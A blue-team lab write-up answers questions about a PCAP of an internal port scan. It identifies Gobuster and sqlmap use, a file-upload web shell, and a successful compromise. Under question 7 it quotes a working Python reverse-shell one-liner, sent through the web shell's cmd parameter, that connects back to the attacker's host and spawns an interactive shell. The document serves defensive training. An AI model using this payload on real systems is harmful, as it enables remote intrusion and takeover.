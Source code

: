 #ctf
## Scenario

The SOC received an alert in their SIEM for ‘Local to Local Port Scanning’ where an internal private IP began scanning another internal system. Can you investigate and determine if this activity is malicious or not? You have been provided a PCAP, investigate using any tools you wish.

### Resources

- [PCAP File Download](https://blueteamlabs.online/storage/files/DdMgCqiLCvTxMd6XYQgaXCyjDH8M6b.zip)  
    **Password**: `btlo`  
    ![[DdMgCqiLCvTxMd6XYQgaXCyjDH8M6b.zip]]  
    ![[BTLOPortScan.pcap]]

## Playbook
Tool:
- wireshark
- SIEM
### 1. What is the suspicious/unknown IP?

- **Suspicious IP**: `10.251.96.4`  
    ![[{BCBCDBD4-0409-4AB0-8A3D-979DBE06556F}.png]]  
    ![[{96AC4C5D-8280-48E4-91CC-F3024C5BE6F4}.png]]  
    _There were numerous requests from 10.251.96.4 to 10.251.96.5._

### 2. Which system was attacked?

- **Target System**: `10.251.96.5`

### 3. What ports were attacked?

- Ports: `80 (HTTP)` and `443 (HTTPS)`

### 4. What tool was used?

- **Gobuster** (v3.0.1) for directory brute-forcing.  
    _User-Agent_: `gobuster`  
    ![[{659BCB8F-482A-49ED-BD3E-8FF3FA496EBA}.png]]
    
- **Sqlmap** for SQL injection testing.  
    _User-Agent_: `sqlmap`  
    ![[{51A7CB94-ACE5-4DDF-B940-E056C35C45AB}.png]]
    

### 5. What protocol was used?

- **HTTP/HTTPS**
- **TCP SYN** scans

### 6. What exploit was used?

- The `/upload` functionality was exploited to upload a file, which was later used to gain a web shell.
    
- **Malicious File**: `dbfunction.php`  
    ![[{A57541B8-0086-4A8C-B65C-8A954689C6C8}.png]]
    
- **Reverse Shell Attempt**:  
    File `dbfunction.php` was accessed with a `cmd` parameter for remote command execution.  
    ![[{5863F3B5-62C2-4FB2-98FF-01B463E4A4F3}.png]]
    
    Example commands like `id` and `whoami` were run from the shell.
    

---

### 7. Was the exploit successful?

Yes, the exploit succeeded. The attacker gained access through a reverse shell.

```http
GET /uploads/dbfunctions.php?cmd=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.251.96.4",4422));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' HTTP/1.1

```
- **Successful Reverse Shell** on port `4422` to IP `10.251.96.4`.

---

### 8. Did they gain access to the internal network?

Yes, the attacker gained internal network access—they already had internal network access, which was leveraged for further attacks.
